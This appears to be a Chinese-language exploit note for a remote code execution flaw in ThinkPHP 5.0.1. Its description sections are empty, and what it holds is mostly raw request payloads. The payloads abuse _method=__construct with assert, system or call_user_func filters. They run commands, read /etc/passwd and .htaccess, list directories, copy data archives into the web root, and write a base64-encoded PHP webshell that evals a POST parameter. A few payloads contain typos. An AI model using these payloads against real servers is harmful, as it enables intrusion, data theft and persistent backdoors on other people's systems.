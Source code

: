 Thinkphp 5.0.1
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、判断是否存在漏洞

#### poc1

    http://wwww.com/public

    s=phpinfo()&_method=__construct&filter=assert
    _method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
    _method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
    _method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1

#### poc2

    http:/xxxx.com/?s=index/index/index

    s=ipconfig&_mehthod=__construct$method=&filter[]=system

### 2、深入利用

使用post提交

#### 1、使用assert函数

    s=phpinfo()&_method=__construct&filter=assert

#### 2、include函数，可以根据此函数查看一些文件及其配置

    s=include("/etc/passwd")&_method=__construct&filter=assert

#### 3、file\_put\_contents函数，可以直接写入文件

    s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert

#### 4、读取文件

    _method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess
    s=include("../application/.htaccess")&_method=__construct&filter=assert

    //ps:如果不加.. 请加上完整路径

#### 5、var\_dump函数，可以查看该路径下的文件，文件夹

    s=var_dump(scandir('../application/'))&_method=__construct&filter=assert

#### 6、复制文件

    s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=asser

